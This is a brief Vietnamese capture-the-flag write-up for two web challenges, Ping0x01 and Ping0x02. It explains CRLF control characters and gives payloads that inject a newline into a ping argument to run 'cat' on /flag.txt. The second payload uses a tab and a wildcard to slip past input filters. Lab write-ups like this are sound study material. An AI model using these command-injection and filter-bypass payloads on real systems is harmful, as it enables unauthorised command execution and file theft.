 # Ping0x01
-  CRLF là viết tắt của Carriage Return và Line Feed, CR và LF là các ký tự điều khiển, được mã hóa tương ứng 0x0D (13 trong hệ thập phân) và 0x0A (10 trong hệ thập phân). Chúng được sử dụng để đánh dấu ngắt dòng trong tệp văn bản.
- Payload: 8.8.8.8%0D%0Acat%09/flag.txt
![image](https://github.com/minhngoc9119/WEB_CTF/assets/34714073/5c09a812-33cf-4bac-8564-ae146a6fc035)

# Ping0x02
- Payload: 8.8.8.8%0D%0Acat%09/fla*g.txt\
![image](https://github.com/minhngoc9119/WEB_CTF/assets/34714073/a2cc1190-569b-47ad-8956-b1f5945e10d7)
